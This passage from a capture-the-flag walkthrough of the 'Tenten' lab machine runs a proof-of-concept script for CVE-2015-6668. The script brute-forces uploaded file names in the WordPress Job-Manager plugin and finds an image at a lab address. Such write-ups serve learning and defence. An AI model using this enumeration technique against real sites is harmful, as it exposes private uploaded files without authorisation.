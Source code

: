 ```
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL

```

I changed the years to go through all of 2017, since that’s when Tenten retired.

Given that I have nothing else to work with, I’ll look for the file name `HackAccessGranted`:

```

┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
└──╼ $python brute.py 
  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://10.10.10.10/
Enter a file name: HackerAccessGranted

```

It didn’t find anything. Given that I was able to upload images in addition to documents, I went in and added image extensions to the list to check, and on re-running, it got a hit:

```

┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
└──╼ $python brute.py 
  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://10.10.10.10/
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://10.10.10.10//wp-content/uploads/2017/04/HackerAccessGranted.jpg

```

The file is available at that URL:

![image-20200713152624679](https://0xdfimages.gitlab.io/img/image-20200713152624679.png)

### Extract Key with Steg
